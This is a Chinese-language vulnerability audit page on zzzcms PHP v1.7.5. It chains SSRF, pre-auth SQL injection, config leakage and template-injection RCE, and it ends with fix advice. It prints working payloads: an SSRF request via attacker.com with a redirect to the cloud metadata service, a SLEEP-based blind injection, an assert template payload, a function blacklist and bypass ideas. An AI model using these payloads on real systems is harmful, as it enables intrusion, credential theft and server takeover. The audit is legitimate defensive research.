

## 概述

本页面梳理 **zzzcms PHP v1.7.5** 的全链路漏洞审计过程，覆盖从前台无授权到后台任意代码执行的完整攻击面。文章在前人研究（CVE-2019-17408 等）基础上，针对 v1.7.5 版本新增的过滤机制进行绕过挖掘，形成 **SSRF → 前台 SQLi → 后台路径泄露 → 模板注入 RCE** 的组合利用链。

> **核心结论**：尽管 v1.7.5 增加了黑名单过滤，但 `parserIfLabel` 模板解析逻辑仍存在绕过空间，配合前台信息泄露与注入漏洞，可实现从未授权访问到服务器完全控制。

---

## 漏洞清单

| 编号 | 漏洞类型 | 影响组件 | 权限要求 | 危害等级 | 关键文件 |
|------|----------|----------|----------|----------|----------|
| V1 | SSRF | UEditor 远程图片抓取 | 前台无授权 | 中 | `plugins/ueditor/php/controller.php` |
| V2 | SQL 注入（时间盲注） | 短信插件列表删除 | 前台无授权 | 高 | `plugins/sms/sms_list.php` → `inc/zzz_db.php` |
| V3 | 敏感信息泄露 | WebUploader 配置文件 | 前台无授权 | 低 | `plugins/webuploader/js/webconfig.php` |
| V4 | 模板注入 RCE | 后台模板编辑/解析 | 后台管理员 | 严重 | `inc/zzz_template.php` → `parserIfLabel` |

---

## 详细分析

### V1：UEditor 远程图片抓取 SSRF（`controller.php`）

#### 触发路径
```
POST /plugins/ueditor/php/controller.php?action=catchimage
Content-Type: application/x-www-form-urlencoded

source[]=http://attacker.com/redirect.php
```

#### 核心代码逻辑
```php
// plugins/ueditor/php/controller.php
$source = $_POST['source'];
foreach ($source as $imgUrl) {
    $imgUrl = safeurl($imgUrl);           // 简单过滤，无实质拦截
    $result = down_url($imgUrl, $savePath); // 核心下载函数
}
```

```php
// down_url 函数片段
$ext = file_ext($url);  // 解析后缀，对 ? 后内容截断，http://x/x.php?x.jpg → php
if (!in_array($ext, ['jpg','png','gif','bmp'])) return '后缀不允许';
readfile($url);         // 支持 file:// 协议，但 file:// 协议在 302 跳转时被 PHP 限制
```

#### 绕过与利用
- **后缀校验**：`file_ext` 会解析 `?` 前的真实后缀，直接上传 `.php` 会被拦截。
- **302 跳转技巧**：攻击者搭建中转服务，返回 `301/302 Location: http://target/internal-service`，配合 `readfile` 追踪重定向，实现**内网端口扫描、元数据服务访问、云厂商凭证获取**。
- **PoC 服务端示例**（Flask）：
  ```python
  @app.route('/1.txt')
  def index():
      return redirect('http://169.254.169.254/latest/meta-data/', code=301)
  ```

> **关联技术**：类似 SSRF 利用思路见 [[diwuzhijian-2020-web-writeup]] 中 SSRF 结合 XXE 绕过过滤的案例。

---

### V2：前台 SQL 注入（`plugins/sms/sms_list.php`）

#### 入口点
```php
// plugins/sms/sms_list.php
$id = $_POST['id'];   // 可控数组
dbdelete('sms', "id in ($id)");   // 直接拼接进入删除函数
```

#### 调用链追踪
```
dbdelete('sms', $where)
  → dbcondtosqladd($where)   // 核心转换函数
      → dbexec($sql)
```

#### `dbcondtosqladd` 关键片段（简化）
```php
function dbcondtosqladd($cond) {
    if (is_array($cond)) {
        foreach ($cond as $k1 => $v1) {
            // $k1 为键名，直接拼接到 SQL 片段
            $sql .= " `$k1` = '$v1' AND";
        }
    }
    return $sql;
}
```

#### 注入构造
传入 `id[key]=value` 形式的数组，**键名 `key` 无任何过滤直接进入 SQL**：
```http
POST /plugins/sms/sms_list.php
id[1=1 AND (SELECT 1 FROM (SELECT SLEEP(5))a)]=1
```
生成 SQL：
```sql
DELETE FROM sms WHERE id in ( `1=1 AND (SELECT 1 FROM (SELECT SLEEP(5))a)` = '1' )
```
利用 `BENCHMARK`/`SLEEP` 实现**时间盲注**，可逐字符提取数据库版本、用户哈希等。

> **对比参考**：[[ecshop-414-sql-injection-analysis]] 同样分析了从 HTTP 头到 SQL 执行的完整链路，可对照学习数组键名注入的通用挖掘模式。

---

### V3：后台管理路径泄露（`plugins/webuploader/js/webconfig.php`）

#### 泄露文件内容
```php
// plugins/webuploader/js/webconfig.php
require_once '../../../../inc/zzz_config.php';  // 直接包含核心配置
echo json_encode($config);   // 原样输出
```

#### 敏感字段示例
```json
{
  "admin_dir": "admin_x7k2",      // 后台目录，原需爆破 admin+3位数字
  "db_host": "localhost",
  "db_user": "zzzcms",
  "db_pwd": "plaintext_password"  // 明文数据库密码
}
```

#### 影响
- **消除后台爆破成本**：直接获取 `admin_dir` 访问后台登录页。
- **数据库凭据泄露**：若配置文件包含明文密码，配合文件读取漏洞可直接接管数据库。

---

### V4：后台模板注入 RCE（`parserIfLabel` 过滤绕过）

#### 历史背景
- **CVE-2019-17408** (v1.7.3)：`{if:assert($_REQUEST[1])}phpinfo();{end if}` 直接 `eval` 执行。
- **v1.7.5 新增黑名单**（`inc/zzz_template.php`）：
  ```php
  $forbid = ['assert', 'eval', 'system', 'exec', 'shell_exec', 'passthru',
             'proc_open', 'popen', 'file_put_contents', 'fwrite', 'fputs',
             'base64_decode', 'hex2bin', 'chr', 'ord', 'strtr', 'str_replace'];
  foreach ($forbid as $f) {
      if (stripos($label, $f) !== false) exit('forbidden');
  }
  ```

#### 绕过思路（原文未直接给出 Payload，留白供研究）
1. **动态函数名构造**：利用变量函数、字符串拼接、数组回调绕过静态字符串匹配。
2. **编码/加密绕过**：`rot13`、`base64` 结合 `assert` 回调，或利用 `create_function`/`匿名类`。
3. **模板语法嵌套**：`{if:...}{end if}` 中插入注释、换行、大小写变形干扰正则。
4. **利用链组合**：前台 SQLi 拖库 → 后台弱口令/会话伪造登录 → 模板注入 Getshell。

> **同类模板注入对比**：[[zzzphp-cve-2021-32605-rce]] 分析了 zzzphp（另一 CMS）中 `if` 标签 `eval` 注入，思路高度相似，可互参绕过技巧。

---

## 完整利用链演示



---

## 修复建议

| 漏洞 | 修复方案 |
|------|----------|
| SSRF | 1. 禁用 `readfile` 远程协议，改用 `curl` 并限制协议为 `https`；2. 验证目标域名/IP 为公网地址，屏蔽内网段；3. 下载后校验文件头（Magic Bytes）而非后缀。 |
| SQLi | 1. `dbcondtosqladd` 中对键名 `$k1` 使用白名单或 `backtick` 转义；2. 全量采用预处理语句；3. 删除功能增加 CSRF Token 与权限校验。 |
| 信息泄露 | 1. 移除 `webconfig.php` 或仅返回前端必要配置；2. 配置文件敏感字段加密存储，运行时解密。 |
| 模板 RCE | 1. 废弃 `eval` 解析模板，改用沙箱引擎（如 Twig/Blade）；2. 若必须保留，采用 AST 白名单校验，禁止动态代码执行函数；3. 后台模板编辑增加 WAF 与操作审计。 |

---

## 纵向关联与扩展阅读

- **同系列 CMS 审计**：[[zzzphp-cve-2021-32605-rce]] — zzzphp 模板注入 RCE 分析，绕过思路可迁移。
- **SQL 注入链路对比**：[[ecshop-414-sql-injection-analysis]] — 从 HTTP 头到 SQL 执行的完整链路梳理。
- **SSRF 实战技巧**：[[diwuzhijian-2020-web-writeup]] — SSRF 结合 XXE、协议转换的绕过案例。
- **2021 年 HVV 实战漏洞库**：[[hvv-2021-vulnerability-collection]] — 同期常用 PoC 聚合，含多款 CMS 后台 Getshell 链。

---

## 参考资料

1. 原文：《zzzcms(php) v1.7.5 一剑封喉》 — 微信公众号文章（链接已失效，内容归档于本页）
2. 先知社区历史分析：
   - [zzzcms 前台注入分析 (t/6942)](https://xz.aliyun.com/t/6942)
   - [zzzcms v1.7.3 模板注入 RCE (t/4471)](https://xz.aliyun.com/t/4471)
   - [zzzcms 其他审计文章 (t/7239, t/6916)](https://xz.aliyun.com/t/7239)
3. CVE-2019-17408 — zzzcms v1.7.3 模板注入漏洞官方编号

---

> **更新记录**  
> - 2021-04-13：首次整理归档，构建结构化知识页面  
> - 后续可补充：绕过黑名单的具体 Payload、自动化检测脚本、修复补丁对比

## 来源

- [0th3rs安全团队-201911-202204_061](../sources/0th3rs安全团队-201911-202204_061.md)
